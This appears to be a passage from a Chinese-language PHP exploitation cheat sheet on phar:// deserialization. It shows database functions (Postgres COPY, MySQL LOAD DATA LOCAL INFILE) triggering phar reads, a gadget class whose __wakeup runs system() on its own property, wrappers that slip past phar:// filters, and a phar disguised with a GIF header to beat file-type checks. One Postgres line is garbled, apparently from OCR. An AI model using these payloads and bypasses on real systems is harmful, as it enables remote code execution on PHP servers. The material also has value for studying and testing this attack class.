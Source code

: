 **Postgres**

```
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;db));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

**MySQL**

```
LOAD DATA LOCAL INFILE`也会触发这个`php_stream_open_wrapper
<?php
class A {
  public $s = '';
  public function __wakeup () {
       system($this->s);
  }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a LINES TERMINATED BY \'\r\n\' IGNORE 1 LINES;');
```

再配置一下 mysqld。（非默认配置）

```
[mysqld]
local-infile=1
secure_file_priv=""
```

Trick
=====

### 过滤`phar://`协议的绕过方式

*   `compress.bzip2://phar://`
    
*   `compress.zlib://phar:///`
    
*   `php://filter/resource=phar://`
    

### 文件格式绕过

```
<?php
   class TestObject {
  }

   @unlink("phar.phar");
   $phar = new Phar("phar.phar");
   $phar->startBuffering();
   $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
   $o = new TestObject();
   $phar->setMetadata($o); //将自定义meta-data存入manifest
   $phar->addFromString("test.txt", "test"); //添加要压缩的文件
   //签名自动计算
   $phar->stopBuffering();
?>
```
